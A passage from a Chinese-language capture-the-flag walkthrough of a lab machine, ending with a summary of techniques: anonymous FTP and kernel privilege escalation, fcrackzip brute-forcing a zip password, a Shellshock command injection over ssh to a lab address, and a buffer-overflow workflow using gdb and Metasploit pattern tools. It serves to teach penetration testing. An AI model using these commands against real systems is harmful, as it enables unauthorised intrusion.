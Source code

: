 写一个c文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuAG8liaGJI9WNIkteHnShfOfIGoeIBDicQcgdU5nOibYkDNWqT8ibN9xO5w/640?wx_fmt=png&from=appmsg "")  
  
image-20250103021250968  
  
这里出现一个编译错误，说我们使用了一个隐式的函数system，需要我们加上一个参数  
```
gcc -o dont_even_bother test.c -Wno-implicit-function-declaration

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuzswFxE0mdLcomJF7uW0MYv6pbYHES4N2qfo4zvudKJ0K1CE1yWlY2g/640?wx_fmt=png&from=appmsg "")  
  
image-20250103021324986  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuRrF0umKFxFKwgexj1UT1qPlS7jR3icia5mnlrib48qwDhfeicNFq4RUAQA/640?wx_fmt=png&from=appmsg "")  
  
image-20250103021450072  
## 总结  
  
level 1主要使用的是ftp匿名登录，和低版本操作系统的内核提权  
  
level 2 通过页面上的图片信息，使用strings查看图片信息，有一个信息泄露，得到zip密码信息后，使用fcrackzip对压缩包文件进行一个暴力破解，命令如下  
```
fcrackzip -D -p pass.txt -u lmao.zip

```  
  
然后就是Bashdoor（bash之门漏洞），命令如下  
```
ssh -i noob -o "PubkeyAcceptedKeyTypes=ssh-rsa" noob@192.168.111.191 -t "() { :;}; /bin/bash"

```  
  
最后就是缓冲区溢出漏洞，如何判断？看函数信息就可以了，需要一个调试工具gdb，还有msf的一个接口，常用命令  
```
gdb filename # 进入该文件的调试
disas main # 显示main函数的汇编代码
run # 运行当前文件，可简写 r 
# msf接口
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1024 # 表示生成1024个字符
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [缓冲区溢出的位置，例如(0x6a413969)] -l 1024 # 反查这个溢出的位置的偏移量

```  
  
一个有用的python脚本，将 0xbffffb80 起始的esp地址转化为**十六进制字节序列的形式**  
```
address = 0xbffffb80
byte_sequence = address.to_bytes(4, byteorder='little')
hex_representation = ''.join(f'\\x{byte:02x}' for byte in byte_sequence)
print(hex_representation) # \x80\xfb\xff\xbf

```  
  